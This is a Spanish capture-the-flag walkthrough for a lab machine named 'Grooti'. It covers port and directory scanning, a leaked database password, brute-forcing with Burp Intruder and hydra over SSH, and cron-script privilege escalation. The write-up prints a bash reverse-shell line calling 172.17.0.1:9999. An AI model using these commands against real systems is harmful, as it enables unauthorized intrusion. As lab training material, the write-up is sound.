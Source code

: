 ```yaml
---
description: '🧠Dificultad: Fácil | 🔓25/09/2025'
---
```


# Grooti

## 🕵️ Reconocimiento

Escaneamos los puertos de la máquina con nmap:

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Tenemos una base de datos `mysql`, un servicio `http` y un `ssh`.

Si accedemos al `index.html`, encontramos un comentario en el código `html`:

```html
<!-- 
        I am Grooti...
        Creo que Rocket ha entrado a mi base de datos...
-->
```

En `/imagenes` encontramos un directory indexing con un `README.txt`:

```
(password1) Encuentra donde ponerla ;)
```

Si realizamos un escaneo de directorios, nos reporta lo siguiente:

```bash
ffuf -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u "http://172.17.0.2/FUZZ"
```

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

Si accedemos al directorio `/secret` nos encontramos con esta página:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

En las instrucciones que nos descargamos, vemos un comando escrito al final que nos sirve para entrar a la base de datos mysql:

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Probamos con la contraseña encontrada anteriormente (`password1`):

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Listando el contenido de la base de datos, encontramos una ruta que no conocíamos: `/unprivate/secret`.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Si accedemos a dicha ruta, vemos esta página:

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## 🚪 Ganando acceso

Si le hacemos fuerza bruta al campo donde se introduce el número (con `burpsuite` capturamos un request y lo mandamos al intruder), obtenemos que para el número `16` el response size es bastante mayor al normal. Si probamos a introducir un `16` en la web, nos descarga un `.zip` con el siguiente contenido:

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Si usamos esta wordlist para el usuario `grooti`, obtenemos acceso a la máquina:

```bash
hydra -l grooti -P password16.txt ssh://$IPTARGET
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

## 💥 Escalada de privilegios

Una vez dentro, si listamos algunas carpetas donde podría haber algo interesante, encontramos un script en `/opt`:

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Este script llama a otro que se encuentra en `/tmp`. Este último si lo podemos modificar porque tiene permisos de escritura para el grupo grooti.

Si le echamos un vistazo al `crontab`, vemos que este script se ejecuta cada minuto.

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Editamos el fichero `malicious.sh` con una reverse shell y esperamos.

```bash
bash -i >& /dev/tcp/172.17.0.1/9999 0>&1
```

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>
